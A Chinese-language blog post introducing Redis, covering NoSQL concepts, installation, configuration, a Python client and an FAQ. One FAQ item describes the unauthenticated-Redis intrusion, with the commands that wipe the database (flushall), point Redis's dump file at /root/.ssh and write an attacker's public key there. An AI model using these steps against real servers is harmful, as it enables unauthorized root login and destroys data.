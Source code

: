 ```yaml
---
layout: post
title:  "redis入门"
date:   2017-06-06 20:15:00 +0800
categories: nosql
---
```


当我真正的接触到了Redis的时候，我被它的速度震惊了，因为它甚至比python内置的数据结构还要快。
在学习redis之前有几个问题可以先思考一下

1.系统的瓶颈出现在哪里？
IO读写，涉及到了磁盘操作，而这里速度是影响性能的主要因素
寄存器->内存->磁盘
依次是，存储量变大，但速度变慢。
2.NoSql是什么？
数据库有关系型数据库，结构化存储，支持SQL语句，这是我们所熟悉的，也是技术比较成熟的。
还有一种not only sql,例如redis通过key-value存储数据。
3.数据的持久化保存和速度之间的矛盾如何解决
要想持久化就不可避免的应用到磁盘，速度会下降，如何解决这两个矛盾呢？

Redis出现了，说起它的作者，你可能用过他写的另一个工具hping。
Redis有哪些特点？

1.数据可以存储到磁盘，提高可靠性
2.数据存放在内存中，可以定时保存到存储中。
3.多种数据结构的支持。

redis安装和使用

在linux上通过源码编译安装。
redis本身没有提供windows版本，但微软公司维护了一份可在windows用的redis,但是网络好像不通。
从下面这个地址获取windos版本的编译好的二进制redis文件
https://github.com/dmajkic/redis/downloads
redis-server默认会占用系统的6379号端口。
redis有多种客户端，但其本质都是连接到server，然后执行命令。

redis的配置

redis.conf文件是配置文件。

redis的数据类型

键与值在计算机术语中很常见了。
我通过python接口来学习了。
import redis
conn = redis.Redis()
1.字符串：

redis-cli中
设置键和值
set key value
获取键对应的值
get key

2.列表


3.哈希表


4.集合


5.有序集合


6.位图



总结：对于我们不了解的技术总是心生畏惧，可但凡你投入几个小时学习一下，你就话发现一片崭新的天地。

## install
```
cd redis-3.2.9
make
make install
cd utils
./install_server.sh

```

如下配置
```
Selected config:
Port           : 6379
Config file    : /etc/redis/6379.conf
Log file       : /var/log/redis_6379.log
Data dir       : /var/lib/redis/6379
Executable     : /usr/local/bin/redis-server
Cli Executable : /usr/local/bin/redis-cli

```

### 安装python接口
```
cd redis-2.10.5
python setup.py install
```
### FAQ
1. 如何配置密码？
/etc/redis/6379.conf 配置requirepass helloworld

pkill redis-server

2. 如何进行鉴权？

在用户层面只要这样就可以了
auth passsword

在实现层面会更复杂

3. python客户端做了哪些事？

例如数据库返回OK，则python把它转化为True

4.redis漏洞利用

我认为该漏洞的核心在于redis key的value竟然是明文存储的

ref:
[https://zhuoroger.github.io/2016/07/29/redis-sec/](https://zhuoroger.github.io/2016/07/29/redis-sec/)

Your public key has been saved in /root/.ssh/id_rsa.pub

echo -e "\n\n"; cat id_rsa.pub; echo -e "\n\n"
 
/root/.ssh/authorized_keys 这个是存放公钥的文件，如果这个文件中存放了别人的公钥，那么别人就可以利用他对应的私钥面密登陆。
 
如果Redis 绑定在 0.0.0.0:6379，并且没有开启认证（这是Redis 的默认配置），如果没有进行采用相关的策略，比如添加防火墙规则避免其他非信任来源 ip 访问等，将会导致 Redis 服务直接暴露在公网上，导致其他用户可以直接在非授权情况下直接访问Redis服务并进行相关操作。
```
config get dir
1) "dir"
2) "/var/lib/redis/6379
```

```
flushall

config set dir /root/.ssh/

config set dbfilename authorize_keys

cat r.txt |redis-cli  -a redispassword -x set a
```

4.使用redis作为django的缓存

reference:

[https://github.com/niwinz/django-redis](https://github.com/niwinz/django-redis)
